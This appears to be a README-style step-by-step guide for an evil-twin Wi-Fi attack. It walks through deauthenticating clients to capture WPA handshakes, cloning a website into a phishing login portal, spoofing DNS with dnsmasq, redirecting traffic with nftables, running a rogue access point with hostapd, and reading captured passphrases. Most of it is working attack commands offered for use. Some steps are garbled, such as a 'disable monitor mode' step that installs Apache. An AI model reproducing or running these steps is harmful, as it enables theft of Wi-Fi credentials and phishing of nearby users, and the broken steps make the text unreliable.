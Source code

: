 
This guide provides step-by-step instructions for setting up a wireless network monitoring and attack environment.

### 1. Set Interface to Monitor Mode

Begin by capturing information about clients and access points (APs) around you:

```bash
sudo airodump-ng wlan0mon
```

### 2. Adjust the Capture

To specify the capture details, use:

```bash
sudo airodump-ng -w fileName –output-format pcap -c channelnumber interface
```

### 3. De-authenticate Connected Devices

Wait until the WPA handshake is captured:

```bash
sudo aireplay-ng -0 amountOfdeauths -a ApBSSID interface
```

### 4. Disable Monitor Mode

After completing the capture, disable monitor mode:

```bash
sudo apt install apache2 libapache2-mod-php
```

### 5. Download the Example Page

Use `wget` to download the webpage. Here, `-l2` means to go 2 levels deep:

```bash
wget -r -l2 https://www.website.com
```

### 6. Prepare the Web Directory

Create a directory for the phishing webpage:

```bash
sudo mkdir /var/www/html/portal && sudo mousepad /var/www/html/portal/index.php
```

### 7. Replicate the Website's Style

Replicate the styling of the example website page and copy the assets:

```bash
sudo cp -r ./www.website.com/assets /var/www/html/portal
```

### 8. Set Up the Login Page

Configure the login page to redirect to `login_check.php`:

```bash
sudo mousepad /var/www/html/portal/login_check.php
```

### 9. Assign an IP address and activate the interface:

  ```bash
  sudo ip addr add 192.168.87.1/24 dev wlan0
  sudo ip link set wlan0 up
  ```

### 10. Ensure dnsmasq is installed:

```bash
sudo apt install dnsmasq
```

### 11. Create the DHCP config file at `/home/kali/dnsmasq.conf` and add spoofing entries for top-level domains:

```bash
address=/com/192.168.0.1
address=/org/192.168.0.1
address=/net/192.168.0.1
```

### 12. For Windows 7 & 10 captive portal detection, add:

```bash
address=/dns.msftncsicom/131.107.255.255  
```

### 13. Start dnsmasq with the config file:

```bash
sudo dnsmasq –conf-file=dnsmasq.com
```

### 14. Verify if dnsmasq is running successfully:

```bash
sudo tail /var/log/syslog | grep dnsmasq
```

### 15. Install nftables:

```bash
sudo apt install nftables
```

### 16. Add required rules:

```bash
sudo nft add table ip nat
sudo nft ‘add chain ip nat PREROUTING { type nat hook prerouting priority dstnat; policy; accept; }’
sudo nft add rule ip nat PREROUTING iifname “wlan0” udp dport 53 counter redirect to :53
```

### 17. Modify Apache configuration:

```bash
sudo mousepad /etc/apache2/sites-enabled/000-default.conf
```

### 18. Enable necessary modules and restart Apache:

```bash
sudo a2enmod rewrite && sudo a2enmod alias
sudo systemctl restart apache2
```

### 19. Check the portal by navigating to:

```bash
Firefox 127.0.0.1/portal/index.php
```

### 20. Install hostapd and edit the configuration:

```bash
sudo apt install hostapd && mousepad hostapd.conf
```

### 21. Create and run a 802.11n AP:

```bash
sudo hostapd -B hostapd.conf
```

### 22. Monitor the logs in two separate terminals:

- Terminal 1:

```bash
sudo tail -f /var/log/syslog | grep -E ‘(dnsmasq|hostapd)’
```

- Terminal 2:

```bash
sudo tail -f /var/log/apache2/access.log
```

### 23. Search for passphrase files in `/tmp/`:

```bash
sudo find /tmp/ -iname passphrase.txt
```

### 24. Read the contents of the passphrase file:

```bash
sudo cat /tmp/systemd-private-b37…aef-apache2.service-b...i/tmp/passphrase.txt
```

